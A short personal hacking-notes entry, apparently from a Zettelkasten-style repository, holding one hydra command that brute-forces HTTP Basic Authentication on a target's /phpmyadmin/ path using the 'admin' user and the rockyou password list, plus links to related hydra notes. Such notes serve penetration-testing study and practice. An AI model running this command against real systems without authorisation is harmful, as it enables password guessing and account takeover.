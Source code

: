 # hydra brute force HTTP Basic Authentication
```bash
hydra -l admin -V -P /usr/share/wordlists/rockyou.txt -s 80 -f $IP http-get /phpmyadmin/ -t 15
```

# References
- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- ~/kb/hacking/commands/hydra.md

Tags:
    #assorted
